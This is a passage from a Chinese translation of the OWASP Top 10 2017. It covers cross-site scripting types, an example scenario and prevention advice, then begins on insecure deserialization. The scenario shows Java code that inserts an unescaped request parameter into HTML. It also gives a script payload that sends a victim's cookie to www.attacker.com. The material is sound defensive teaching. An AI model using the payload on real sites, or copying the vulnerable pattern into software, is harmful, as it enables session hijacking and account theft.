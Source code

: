   * **存储式XSS** ：你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。 存储型XSS一般被认为是高危或严重的风险。

  * **基于DOM的XSS** ：会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScriptAPI。

典型的XSS攻击可导致盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。

#### 案例场景

场景#1：应用程序在下面HTML代码段的构造中使用未经验证或转义的不可信的数据：

    
    
    (String) page += "<input name='creditcard' type='TEXT‘
    value='" + request.getParameter("CC“) + "'>";
    

攻击者在浏览器中修改“CC” 参数为如下值：

    
    
    '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
    

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

注意：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项。

#### 如何防止?

防止XSS需要将不可信数据与动态的浏览器内容区分开。这可以通过如下步骤实现：

  * 使用设计上就会自动编码来解决XSS问题的框架，如：Ruby 3.0或 React JS。了解每个框架的XSS保护的局限性，并适当地处理未覆盖的用例。
  * 为了避免反射式或存储式的XSS漏洞，最好的办法是根据HTML输出的上下文（包括：主体、属性、JavaScript、CSS或URL）对所有不可信的HTTP请求数据进行恰当的转义 。更多关于数据转义技术的信息见：[《OWASP Cheat Sheet ‘XSS Prevention’》在新窗口打开](https://www.owasp.org/index.php/XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet)。
  * 在客户端修改浏览器文档时，为了避免DOM XSS攻击，最好的选择是实施上下文敏感数据编码。如果这种情况不能避免，可以采用[《OWASP Cheat Sheet ‘DOM based XSS Prevention ‘》在新窗口打开](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)描述的类似上下文敏感的转义技术应用于浏览器API。
  * 使用内容安全策略（[CSP在新窗口打开](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)）是对抗XSS的深度防御策略。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径遍历覆盖和允许在网络中传输的易受攻击的库），则该策略是有效的。

### A8:2017 – 不安全的反序列化

> 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

#### 知识点简介

如果反序列化进攻者提供的敌意或者篡改过的对象将会使将应用程序和API变的脆弱。这可能导致两种主要类型的攻击：

  * 如果应用中存在可以在反序列化过程中或者之后被改变行为的类，则攻击者可以通过改变应用逻辑或者实现远程代码执行攻击。我们将其称为对象和数据结构攻击。
  * 典型的数据篡改攻击，如访问控制相关的攻击，其中使用了现有的数据结构，但内容发生了变化。

在应用程序中，序列化可能被用于:

  * 远程和进程间通信（RPC / IPC）
  * 连线协议、Web服务、消息代理
  * 缓存/持久性
  * 数据库、缓存服务器、文件系统
  * HTTP cookie、HTML表单参数、API身份验证令牌
